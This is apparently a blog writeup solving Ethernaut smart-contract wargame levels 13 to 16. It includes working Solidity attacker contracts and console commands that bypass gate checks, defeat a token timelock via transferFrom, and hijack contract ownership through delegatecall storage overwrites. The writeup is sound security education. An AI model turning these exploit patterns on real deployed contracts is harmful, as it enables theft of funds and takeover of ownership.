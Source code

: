```yaml
---
layout: post
title:  Ethernaut challenges writeup Part III (Challenges 13 to 16).
excerpt_separator: <!--more-->
category: DeFi
---
```


Hi There!. Let's continue reviewing my solutions for [Ethernaut](https://ethernaut.openzeppelin.com/). In today's post we'll review challenges 13 to 16.

<!--more-->

# Challenges write up

## Gatekeeper One

The main idea behind tis challenge is to be able to pass three checks performed in the code that act as "gates". This level was a real headcache as I knew the idea to solve it but was horribly missing the exact value to pass the sencond check.

The first gate it's pretty simple and the idea to pass it was explained in the [Telephone](https://nahueldsanchez.com.ar/Solving-Ethernaut-Challenges-01-07/) challenge. One way to pass this fist check is to create a contract that calls the contract implemented in the challenge and call this first contract. This way `tx.origin` (User Address) != `msg.sender` (contract #1 address). The second gate was the real headcache as when evaluated the remaining Gas value in the execution modulo 8191 should be 0. To properly calcute this I had to debug quite a few times the contract until I found the exact Gas value spent by the execution until that point (254 in my case). After calculating this I used the following horrible Python code to bruteforce a Gas value that will meet the condition required: 

```
// Python code to calculate Gas value to meet Gate Two condition:

for x in range(30000,50000):
    if((x-254) % 8191) == 0:
        print(x)
```

The last gate is easier and it requires to play with bitmasks and how Solidity trucantes values when casting variables. I developed the contract below to pass this level.

### Further Reading

- Units and Globally Available Variables - https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html
- Convert address to bytes8 - https://ethereum.stackexchange.com/questions/83905/convert-address-to-bytes8

### Solution Code

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGatekeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GatekeeperTwoAttacker {

    //using SafeMath for uint256;
    address victim;

    constructor(address _GatekeeperContract) {
        victim = _GatekeeperContract;
    }

    function attack() public {
        bytes8 _gateKey = bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF;
        bytes memory payload = abi.encodeWithSignature("enter(bytes8)", _gateKey);
        (bool success, bytes memory returnData) = address(victim).call{gas: 49400}(payload);
        require(success);
    }

}

```

## Gatekeeper Two

1. First gate is the same idea than in the previous challenge.
2. Second gate was interesting, contract had to return a size of 0 when `extcodesize(addr)` was used. For that we had the hint to read `section 7` of the Ethereum yellow Paper. In the part that I copied below we find a very interesting behavior. If we use a SELFDESTRUCT instruction in the contract's constructor we'll be able to meet the condition required.

```
7.1. Subtleties.
Note that while the initialization code is executing, the newly created address exists but with no intrinsic body code. Thus any message call received by it during this time causes no code to be executed. If the initialization execution ends with a SELFDESTRUCT instruction, the matter is moot since the account will be deleted before the transaction is completed. For a normal STOP code, or if the code returned is otherwise empty, then the state is left with a zombie account, and any remaining balance will be locked into the account forever.
```
3. For the 3rd gate the key is to understand how the XOR operation works. If we simplify how the contract checks if `_gateKey` is correct we can say: `X ^ _gateKey` should be equal to `uint64(0) - 1`. This value `uint64(0) - 1` it's fixed and we can calculate it. I used a dummy contract that emitted an event with the result (that I knew it was 0xFFFFFFFFFFFFFFFF). Knowing this we can rewrite the expression to: `_gatekey == X ^ 0xFFFFFFFFFFFFFFFF`. The last task is to calculate X, and for that we can use the same expression that the challenge uses, but replace msg.sender for `this(address)` as we need to pass the address of our contract (which is in fact what the challenge will see when using `msg.sender`). Then `X = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this)))))`

### Further Reading

- Solidity Assembly Reference - https://docs.soliditylang.org/en/v0.4.21/assembly.html
- Ethereum Beige Paper - https://cryptopapers.info/assets/pdf/eth_beige.pdf
- Ethereum Yellow Paper - https://ethereum.github.io/yellowpaper/paper.pdf
- ABI encode vs packedencode - https://forum.openzeppelin.com/t/abi-encode-vs-abi-encodepacked/2948/4

### Solution Code

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IGatekeeerTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GatekeeperTwoSol {

    address gatekeeperContract;

    constructor(address _gatekeeperContract) public {
        gatekeeperContract = _gatekeeperContract;
        bytes8 _gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0) - 1);
        IGatekeeerTwo(gatekeeperContract).enter(_gateKey);
        selfdestruct(payable(0x7EF2e0048f5bAeDe046f6BF797943daF4ED8CB47));
    }

}
```

## Naught Coin

This challenge was relatively easy for me, as I previously solved Damn Vulnerable DeFi Challenges and had an idea of the ERC20 standard. The idea to solve it is using the `transferFrom` method which in this case is not being modified by the `timelock`. The steps to win the challenge are:

1. First allow the spending of tokens, calling `contract.approve(player, web3.utils.toWei("1000000", "ether"))`.
2. Transfer the tokens using `contract.transferFrom(player, "<address>", web3.utils.toWei("1000000", "ether"))`.

As the challenge's solution explains, the main issue is that the developer who created this contract did not fully understand the code being used.

### Further Reading

- ERC20 Standard - https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md

## Preservation

I loved this challenge. `delegatecall` it is a very powerful function but a dangerous one and can get messy very quickly. I learned about the big differences between [contracts and libraries](https://docs.soliditylang.org/en/v0.7.2/contracts.html#libraries). I also found some parallelism with being able to overwrite function pointers to call arbitrary functions and maybe because of that I quickly got the idea to solve this level.

The main idea in this challenge is to somehow we should be capable of modifying the `owner` of the instance we are given. I started to review the contract and decided to call function `setFirstTime` with a `uint` value of `0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF`. After that I decided to review the contract's storage:

```
await contract.setFirstTime(("0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF"))

await web3.eth.getStorageAt(instance,0)

'0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff'
```
And at that moment all what happened made sense. For me it was very useful to have fresh in my mind challenge #6 - Delegation. While looking at the value stored in `slot 0`. I assumed that the following happened:

1. When calling `setFirstTime`, the code for `setTime` is executed.
2. BUT THE STATE OF the Preservation contract is used. This means that the contract's `slot 0` is used. And this overwrites the value stored in `timeZone1Library`.
3. I corroborated this calling `setSecondTime` with a different value and checking again what was stored in Preservation contract's `slot 0`.

The next step was to think how to leverage this behavior. I decided to store in `timeZone1Library` the address of a malicious contract with a `setTime` function. This way once the Preservation contract calls `setTime` via the `delegatecall` will end up calling the malicious contract.

This malicious contract had defined three variables to had the same layout that the victim contract and in its `setTime` function changed the `owner` variable to my address, effectively changing Preservation's contract `owner` variable.

### Further Reading

- Libraries - https://docs.soliditylang.org/en/v0.7.2/contracts.html#libraries

### Solution code

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Attacker {
    address public foo;
    address public bar;
    address public owner;

    function setTime(uint _time) public {
        owner = 0x922e34D7d34C70Df760DF873BC6F99a10dea516E;
  }
}
```

